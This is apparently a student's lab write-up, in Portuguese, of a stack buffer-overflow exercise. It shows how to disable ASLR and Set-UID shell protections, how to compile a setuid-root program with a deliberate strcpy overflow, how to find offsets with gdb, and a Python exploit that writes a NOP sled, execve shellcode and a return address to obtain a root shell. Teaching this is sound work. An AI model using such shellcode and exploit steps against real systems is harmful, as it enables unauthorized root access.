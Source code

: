 # Buffer Overflow

## Environment Setup

> Numa primeira fase, desligamos algumas das proteções do sistema operativo, como por exemplo a randomização do espaço de endereços e a proibição ao nível da shell de ser executada por processos com Set-UID.
>```bash
> $ sudo sysctl -w kernel.randomize_va_space=0
> $ sudo ln -sf /bin/zsh /bin/sh
>```

## Task 1: Getting Familiar with Shellcode

> Primeiro executamos um programa simples que abre uma shell utilizando o commando `execve`:
> ```c
> char *name[2];
> name[0] = "/bin/sh";
> name[1] = NULL;
> execve(name[0], name, NULL);
> ```
> De seguida, fizemos o mesmo utilizando o shellcode respetivo e invocando-o desde a stack, tanto para 32 bits como para 64 bits. <br><br>
> Em todos os casos, foi aberta uma shell no mesmo diretório em que foi executado o programa.

## Task 2: Understanding the Vulnerable Program

> Inicialmente estudamos o código do programa com uma vulnerabilidade *buffer-overflow*. Reparamos que tenta-se copiar para um buffer de tamanho máximo de 100 bytes, um array de carateres que pode ter até 517 bytes. Como o `strcpy` não verifica os limites do buffer, acaba por ocorrer overflow. <br><br>
> Para o programa vulnerável, desativamos o *StackGuard* e as proteções contra a execução de código invocado desde a stack. Para além disso, mudamos o owner do programa para `root` e ativamos o `Set-UID`
> ```bash
> $ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
> $ sudo chown root stack
> $ sudo chmod 4755 stack
> ```

## Task 3: Launching Attack on 32-bit Program

> Para fazer uso da vulnerabilidade, primeiro criamos o ficheiro `badfile` vazio e executamos o código vulnerável em modo debug, de modo a descobrir a posição do endereço de retorno da função `bof()` relativamente ao inicio do buffer. Para isso usámos `gdb` para fazer debug e colocamos um breakpoint na função `bof()`.
> ```bash
> $ touch badfile # Criar o ficheiro badfile vazio
> $ gdb stack-L1-dbg # Executar o programa em modo debug
> ...
> gdb-peda$ b bof # Criar um breakpoint na função bof
> ...
> gdb-peda$ run # Executar o programa até parar no breakpoint
> ...
> gdb-peda$ next # Avançar algumas intruções até que o registo ebp passe de apontar para a stack frame da função bof(), visto que antes ainda apontava para a stack frame da função que chamou bof()
> ...
> gdb-peda$ p $ebp # Obter o valor de ebp
> $1 = (void *) 0xffffca98
> gdb-peda$ p &buffer # Obter o endereço do início do buffer
> $2 = (char (*)[100]) 0xffffca2c
> ```
> Após obter os endereços necessários, falta inserir no ficheiro `badfile` o conteúdo que pretendemos inserir no buffer (shellcode e o endereço de retorno que aponta para esse shellcode). Para isto usamos o programa fornecido em python, com as seguintes alterações <br> <br>
> Na variável `shellcode` inserimos o shellcode em 32-bits que executa uma shell
> ```python
> shellcode= (
>  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
>  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
>  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
> ).encode('latin-1')
> ```
> Criou-se uma array de bytes de tamanho 517 (tamanho máximo da array de carateres lida do ficheiro pelo programa vulnerável), em que todos os bytes são NOP (0x90)
> ```python
> content = bytearray(0x90 for i in range(517))
> ```
> Colocou-se o shellcode no final da array de bytes
> ```py
> start = 517-len(shellcode)  
> content[start:start + len(shellcode)] = shellcode
> ```
> Calculou-se o novo endereço de retorno que aponta para o shell code a executar
> ```py
> ret    = 0xffffca98 + start 
> ```
> Utilizando os 2 endereços obtidos no debug, calculou-se a localização do endereço de retorno relativamente ao inicio do array (offset) e colocou-se o novo endereço de retorno que aponta para o shellcode calculado anteriormente (ret)
> ```py
> offset = 0xffffca98 - 0xffffca2c + 4 
> L = 4  
> content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
> ```
> Executou-se o programa e este gerou o ficheiro `badfile`. <br><br>
> Finalmente, executou-se o programa vulnerável que provocou o buffer overflow e lançou uma shell com permissões root, tal como previsto. <br> <br>
> ![Buffer Overflow](../img/lab5task3.png)
